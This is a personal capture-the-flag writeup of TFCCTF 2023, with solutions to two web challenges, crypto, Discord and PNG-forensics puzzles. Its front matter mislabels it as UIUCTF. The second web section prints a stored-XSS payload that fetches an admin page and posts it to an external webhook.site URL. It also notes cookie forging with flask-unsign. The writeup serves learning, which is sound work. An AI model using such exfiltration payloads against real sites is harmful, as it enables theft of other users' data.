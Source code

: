 ```yaml
---
title: "TFCCTF 2023 Writeup"
date: 2023-07-30T09:16:29-07:00
description: The UIUCTF 2023 Writeup. Two web challenges, one crypto
images:
  - images/2023-07-30/TFCCTF-2023.png
tags:
  - ctf
type: post
---
```


[The Few Chosen](https://ctf.thefewchosen.com/) hosted their third annual Capture The Flag (CTF) event. A lot of teams participated. It was very interesting and had a lot of solving them. To me, this was a great educational CTF and beginner friendly.

### web/BABY DUCKY NOTES
* solved
* solves: 443
* description: Quack quack! Try and huack me!

The challenge was a note taking web app. Users can view other people's posts but posts can be hidden. The flag was in the `admin`'s first post. This one was easy since the admin post was not hidden. Simply sign up and view the `admin`'s post 

```python
    query(con, f''' 
    INSERT INTO posts (
        user_id,
        title,
        content,
        hidden
        ) VALUES (
            1,
            'Here is a ducky flag!',
            '{os.environ.get("FLAG")}',
            0
    );
    ''')
```

{{< figure
    src="/images/2023-07-30/ducky-1.png"
    alt="A screenshot of the BABY DUCKY NOTES challenge"
>}}

Then we get the flag `TFCCTF{Adm1n_l0St_h1s_m1nd!}`

### web/BABY DUCKY NOTES: REVENGE
* solved
* solves: 175
* description: Quack quack! Try and huack me! Again!

The challenge has patched the previous issue and made the post hidden. I tried to see if there was a way to do SQL injection, no luck. I tried to see if I can forge the cookie to pretend I was the `admin`. I found [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) that can fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys. This time the secret key was random so I couldn't forge it. It was fun to play around with the idea.

```python
app.secret_key = os.urandom(30).hex()
```

The app has a way to report a user and a bot will visit that user's post page. This can be used to our advantages. If we can somehow xss my own user's page then I can navigate to admin's own page to steal the flag.

```html
<p> {{post.get('content') | safe}} </p>
```
This code is from the post template. The usage of `safe` means that Flask will not sanitize the post content which allows us to XSS. This was my payload. It navigates to admin's page and relay the HTML response to the webhook site in the body for me.

```html
<script>
  fetch('http://localhost:1337/posts/view/admin').then(res => res.text()).then(res => {
    fetch('https://webhook.site/f87a15ba-36e1-4b45-a310-53dd5247a133', {method: 'POST', body: res});
  })
</script>
```

{{<figure
    src="/images/2023-07-30/ducky-2.png"
    alt="A screenshot of the response in webhook with flag in the body"
>}}

Then we get the flag `TFCCTF{Ev3ry_duCk_kn0w5_xSs!}`


### crypto/MAYDAY
* solved
* solves: 651
* description: We are sinking! The nearest ship got our SOS call, but they replied in pure gobbledygook! Are ye savvy enough to decode the message, or will we be sleepin' with the fish tonight? All hands on deck!

The message reads

```
Whiskey Hotel Four Tango Dash Alpha Romeo Three Dash Yankee Oscar Uniform Dash Sierra One November Kilo India November Golf Dash Four Bravo Zero Uniform Seven
```

This is the phonetic spelling. Just change dash and number words to `-` and numbers, and first letter of each word. You get the flag `TFCTF{WH4T-AR3-YOU-S1NKING-4B0U7}`

I found out that there is a website that for this decoding: https://cryptii.com/. Select "Spelling alphabets". A pretty cool tool. It seems similar to cyberchef.


### misc/Discord Shenanigans V3
* solved
* solves: 146
* description: Oh, look who's back for more chaotic fun! The annual wild ride of DISCORD SHENANIGANS V3 is live, and this time we're serving a delicious dish of digital disorder, courtesy of our mischievous Discord bot. For those with a discerning eye and a knack for unscrambling the scrambled, this game is your pixelated playground. The flag, you ask? Well, it's tucked away in a place that's right in front of you, yet often overlooked. Seek the unseen, unravel the unexpected, and let the shenanigans begin!

The flag was in the discord bot's profile picture. Open in a new tab to see the flag.

{{<figure
    src="/images/2023-07-30/discord.png"
    alt="The discord bot's profile picture with the flag"
    width="20%"
>}}


### forensics/DOWN BAD
* not solved
* solves: 238
* description: The flag is right there!

You get a png file but cannot be opened. It seems like something is wrong with the file. Using `exiftool` does not tell me much. It says it was made with `http://www.pdf-tools.com` so I wasted sometime to see if I can convert png to pdf or vise versa.

Use `binwalk` says it's a PNG and Zlib compressed. All PNG are Zlib compressed so looks like there are not hidden file inside the image.

Use `pngcheck` to see what's wrong.

```bash
➜  DOWN-BAD pngcheck -c down_bad.png
down_bad.png  CRC error in chunk IHDR (computed 1d9c52c0, expected a9d5455b)
ERROR: down_bad.png
```

After correctly the CRC, the image is showing but does not show the flag.

{{< figure
    src="/images/2023-07-30/down_bad_fixed.png"
    alt="The down bad image after fixing CRC"
    width="30%"
>}}

I tried a couple of other tools, `strings`, `stegsolve` but nothing turned out to be useful.

After the event, I found out, instead of fixing the CRC, we should be fixing the height to match the CRC. CRC is calculate based on header information. So we can find out the original height by brute forcing CRC check.

I found this [script: png-unhide](https://github.com/ryanking13/png-unhide) later. It detects the real height and fix it for you.

```bash
➜  DOWN-BAD python3 checker.py down_bad-fixed.png
[*] Height in the IHDR: 0x490
[*] Real Height: 0x540
[!!] Wrong size in the IHDR
Automatically fix the IHDR? (Y/N)y
[*] Fixed file saved to down_bad-fixed_fixed.png
```

{{< figure
    src="/images/2023-07-30/down_bad_flag.png"
    alt="The down bad image with flag"
    width="30%"
>}}

Someone also mentioned https://fotoforensics.com/ in the discord chat where you can see hidden rows in a file. It is a nice tool.

This challenge reminded of the `papapa` from Google's 2023 CTF. Both are changing the dimension to find out the true size of the image. I might look into the actual spec of both PNG and JPEG later. 



### crypto/DIZZY
* not solved
* solves: 411
* description: Embark on 'Dizzy', a carousel ride through cryptography! This warmup challenge spins you around the basics of ciphers and keys. Sharpen your mind, find the flag, and remember - in crypto, it's fun to get a little dizzy!

Message: 
```
T4 l16 _36 510 _27 s26 _11 320 414 {6 }39 C2 T0 m28 317 y35 d31 F1 m22 g19 d38 z34 423 l15 329 c12 ;37 19 h13 _30 F5 t7 C3 325 z33 _21 h8 n18 132 k24
```

I forgot about the super useful https://www.dcode.fr/ site that can help you guess the cipher for you. Putting the message in it guess the flag to be using "Letters Positions" `TFCCTF{th_chllng_mks_m_dzzy_;d}` but this was incorrect.

The letters positions encryption is straightforward. The word/string to be encoded is decomposed of characters/letters. For example: `T4` means `T` is in position `4`.

The actual message has 40 segments meaning 40 characters. `dcode` only returned 31 characters. We can write a simple script to decode this.

```python
cipher = 'T4 l16 _36 510 _27 s26 _11 320 414 {6 }39 C2 T0 m28 317 y35 d31 F1 m22 g19 d38 z34 423 l15 329 c12 ;37 19 h13 _30 F5 t7 C3 325 z33 _21 h8 n18 132 k24'.split()
flag = [''] * len(cipher)
for pair in cipher:
    char, pos = pair[0], int(pair[1:])
    flag[pos] = char

print(''.join(flag))
```

The script returns the flag `TFCCTF{th15_ch4ll3ng3_m4k3s_m3_d1zzy_;d}`

## Conclusion

This was a great CTF to me. The site aesthetics was great. The warmup challenges were great for beginner like me to ease into the event. Love see some other events for like this.
